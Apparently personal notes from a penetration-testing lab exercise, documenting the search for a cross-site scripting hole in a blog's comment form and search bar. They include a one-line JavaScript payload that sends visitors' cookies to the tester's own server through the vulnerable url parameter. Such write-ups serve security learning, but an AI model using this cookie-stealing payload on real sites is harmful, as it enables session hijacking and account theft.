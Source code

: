# XSS Candidates:
comment form:
http://10.129.148.82/assessment/index.php/2021/06/11/welcome-to-security-blog/

search bar at:
http://10.129.148.82/assessment/

searchbar wasn't exploitable by chance

so i tested the form and found out several filters for name and email are in place.
i tested the url and comment parameters and got a hit to my php server
![](Pasted%20image%2020250612224939.png)

okay its the url parameter, ive confirmed

setup `script.js` file that sends users creds to our php server and call it within the affected parameter
```
$ cat script.js 
new Image().src='http://10.10.16.12:8000/index.php?c='+document.cookie
```
![](Pasted%20image%2020250612225618.png)
hit send

![](Pasted%20image%2020250612225600.png)

